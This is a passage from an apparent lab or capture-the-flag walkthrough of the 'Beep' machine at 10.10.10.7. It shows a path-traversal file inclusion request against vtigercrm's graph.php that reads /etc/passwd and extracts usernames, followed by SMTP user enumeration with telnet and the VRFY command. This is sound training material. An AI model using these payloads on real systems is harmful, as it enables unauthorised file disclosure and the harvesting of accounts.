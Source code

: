 Let's filter the usernames and save it to a file:

```shell
❯ curl -sk "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action" | grep bash | cut -d ':' -f 1 > users.txt
❯ cat users.txt
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: users.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ root
   2   │ mysql
   3   │ cyrus
   4   │ asterisk
   5   │ spamfilter
   6   │ fanis
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

# SMTP - TCP 25

We can use telnet to connect to SMTP:

```shell
❯ telnet 10.10.10.7 25
Trying 10.10.10.7...
Connected to 10.10.10.7.
Escape character is '^]'.
220 beep.localdomain ESMTP Postfix # < wait for this
```

Alternatively, we can use nc:

```shell
❯ nc -nv 10.10.10.7 25
(UNKNOWN) [10.10.10.7] 25 (smtp) open
220 beep.localdomain ESMTP Postfix # < wait for this
```

## SMTP User Enumeration

We can validate that users have an `email` in SMTP:

```shell
❯ telnet 10.10.10.7 25
Trying 10.10.10.7...
Connected to 10.10.10.7.
Escape character is '^]'.
220 beep.localdomain ESMTP Postfix
HELO
501 Syntax: HELO hostname
HELO wixnic
250 beep.localdomain
VRFY root@localhost
252 2.0.0 root@localhost
VRFY root
252 2.0.0 root
```

